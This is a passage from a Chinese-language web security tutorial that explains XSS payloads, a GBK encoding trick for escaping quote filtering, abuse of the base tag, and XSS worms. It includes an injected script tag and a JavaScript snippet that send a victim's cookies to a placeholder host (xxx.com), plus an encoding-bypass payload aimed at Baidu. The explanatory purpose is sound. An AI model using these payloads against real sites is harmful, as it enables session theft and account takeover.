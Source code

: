 ## XSS payload

当 XSS 攻击成功之后，攻击将恶意脚本植入到页面当中，那么一旦页面被注入恶意脚本，攻击者就可以做各种事情，这种被称为“XSS Payload”。

比如上面 DOM 型 XSS 输入链接，如果改成输入：'><script src=http://xxx.com/xxx.js></script><';

在用户点击跳转的时候，就加载了 xxx.js 了，其中可以获取用户的 cookie，比如：
```js
let img = document.createElement('img')
img.src = "http://xxx.com/cookie?"+escape(document.cookie);
document.body.appendChild(img);
```
这段代码就偷偷的把用户端的 cookie 都上传到 xxx 服务器了。   

一旦 cookie 信息被窥探了，后果不敢相信。   

当然不仅仅是获取 cookie，已经加入的 js，可以执行任意操作，比如去调用接口，查询数据，然后将数据发到 xxx 服务器，或者直接调用接口，执行删除操作等等。

## 利用字符编码攻击

在 GB2312 系列编码的 HTML 中，%c0 可以吃掉 %5c (即：\)。
百度在一个 script 标签中输出了一个变量，于是提交输入的是 ";alert(/xss/) 来实现对百度的 xss 攻击，使用 ” 来闭合前面的 "。但是百度转义了双引号，如下：
```js
let redirectUrl = "\";alert(/xss/);";
```
这样子就没法 xss，变量内容仅仅是一个变量了。但是百度返回的是 GBK/GB2312 编码，那么 ”%c1\“ 组合在一起后，会变成一个 Unicode 字符，于是可以构造输入：%c0";alert(/xss/);
提交之后，百度转义响应之后就变成了：
```js
let redirectUrl = "%c0\";alert(/xss)";
```
由于是 gbk 编码，那么 %c1\ 被组合成一个 Unicode 字符，刚好把 ”\“ 吃掉，变成了如下：

```js
let redirectUrl = "繺";alert(/xss/);
```
于是被 XSS 了。

## 使用 Base 标签

在代码中，我们有时为了会使用相对路径，那么就会设置 <base\> 标签。
比如：
```html
<base href="https://img10.360buyimg.com">
<img src="/img/t1234342334.jpg">
```
这样，其实完整路径就是 base 拼接 src。这样的话，可能攻击者在页面任何位置设置了 base 标签，然后在设置的 base 路径下也同样设置图片，设置 js 文件，那么页面就被 XSS 了。
```js
<base href="http://xxx.com">
```

## XSS 蠕虫

XSS 蠕虫，核心是需要诱导用户去点击链接，攻击者在 Web 页面植入恶意 HTML 代码，然后发送给目标用户，用户点击之后，被感染，然后自动给感染用户的好友发送伪装的链接，已达到想蠕虫一样，快速蔓延的目的。
